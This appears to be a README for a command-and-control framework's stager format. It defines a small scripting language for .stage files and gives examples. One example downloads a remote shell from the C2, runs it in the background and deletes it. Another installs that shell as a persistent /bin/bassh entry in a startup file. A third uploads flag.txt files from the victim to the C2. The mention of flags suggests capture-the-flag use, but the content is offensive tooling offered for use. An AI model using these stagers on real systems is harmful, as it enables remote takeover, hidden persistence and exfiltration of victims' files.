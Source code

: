 # what are stages
> A stager is a small executable program that is used in multi-stage cyberattacks to set up a connection to a command-and-control (C&C) server and run larger malicious modules. Stagers are often used after malicious actors have exploited vulnerabilities in software to gain access to a victim's system. **They can act as a downloader, dropper, or payload for a larger main payload file.**

## how do i make one?
it's very easy to make one, think duckyscript easy  
first, create a file named whatever, but it must end in `.stage` - in our example, we'll use `payload.stage`  
here are the commands you can use in the stager:
|name| description |
|----|-------------|
|run |run a provided command|
|upload|upload a file from the client to the C2 to the `uploads` directory|
|download|download a file from the C2's `uploads` directory|
|print|print something for logging, debugging, etc.|
|`#ar`|enable autorun for this stage, this must be put on the 1st line of said stage|
|`"""`|same as python's multi-lined comments, whatever you put in this comment will be used as the description for the stage|

pretty basic but it works

## examples

download a round-robin shell, run it, and delete it (linux)
```
#ar
"""
Downloads a shell (rr-all.py), and runs it in the background.
Deletes the shell once ran.
"""

download rr-all.py
run nohup python3 rr-all.py &
run rm rr-all.py
```

<hr>

create a persistent shell, no autorun (linux)
```
"""
Creates a persistent shell, even after reboots.
"""

download rr-all.py
run mv rr-all.py /bin/bassh
run echo "python3 /bin/bassh" > ~/rc.local
```

<hr>

upload `flag.txt` from root folder, and from home
```
"""
Upload `flag.txt` from root folder, and from ~
"""

upload /flag.txt
upload ~/flag.txt
```